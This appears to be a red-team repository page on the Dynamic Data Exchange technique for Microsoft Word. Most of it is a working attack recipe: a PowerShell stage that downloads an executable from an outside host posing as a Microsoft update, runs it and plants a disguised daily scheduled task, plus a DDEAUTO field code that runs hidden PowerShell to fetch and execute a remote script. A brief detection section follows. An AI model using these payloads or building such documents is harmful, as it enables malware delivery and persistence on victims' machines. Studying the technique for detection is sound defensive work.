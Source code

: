 # [Dynamic Data Exchange](https://attack.mitre.org/techniques/T1559/002/)

## Exploit Syntax: 

1. Create a txt file named `stage2.txt`

    ```sh
    subl ~/cyber_gambit/resources/malware/stage2.txt
    ```
2. Paste in the powershell below.

   ```powershell
   $url = "http://cpuprok.com/en-us/microsoft-365/update"
   $outpath = "$env:USERPROFILE\msiexec.exe"
   iwr -uri $url -outfile $outpath
   start-process -filepath $outpath
   $action = New-ScheduledTaskAction -Execute $outpath
   $trigger = New-ScheduledTaskTrigger -Daily -At 9am
   Register-ScheduledTask -Action $action -Trigger $trigger -Taskname "MSUpdateCheck" -Description "This task grabs Microsoft Official Updates."
   ```
  > NOTE: Any varibles above can be changed out. 
3. Open a Microsoft Word Document

4. Navigate to the tool bar the at top and select the insert tab

   <img src="/Resources/gifs/Insert_Tab.gif" alt="Insert_Tab.gif" width="800">

5. Under Quick Parts dropdown select Field then press ok.

   <img src="/Resources/gifs/Step2_Adding_Object-720p.gif" alt="addingobject" width="500">

6. Right Click toggle field codes and paste the contents below within the `{}` :
    ```powershell 
    { DDEAUTO "C:\\Programs\\Microsoft\\Office\\MSWord.exe\\..\\..\\..\\..\\windows\\system32\\WindowsPowerShell\\v1.0\\powershell.exe -NoP -sta -NonI -W Hidden $e=(New-Object System.Net.WebClient).DownloadString('http://[webserver ip:port]/[saved ps1 file].ps1');powershell $e # " "for security reasons"}
    ```
    > NOTE: Nake sure to set your url and file name 

   <img src="/Resources/gifs/Step3_Adding_DDEAuto-720p.gif" alt="addingobject" width="800">

7. Save the document.
---
## Detection Method

1. Investigate embedded code within `Microsoft Office` applications
Searching for `winword.exe` with the `/dde` flag in the command line should indicate a DDE execution. 

2. The `winword.exe` event PID should be the PPID of another process, demonstrating that this DDE flag launched another process (in our case, it launches powershell)


---
## Resources    
https://www.securitysift.com/abusing-microsoft-office-dde/
https://1337red.wordpress.com/using-the-dde-attack-with-powershell-empire/
https://blog.2code-monte.co.uk/2021/03/17/creating-a-cyber-attack-part-9-making-a-malicious-word-document-using-dde-and-powershell/
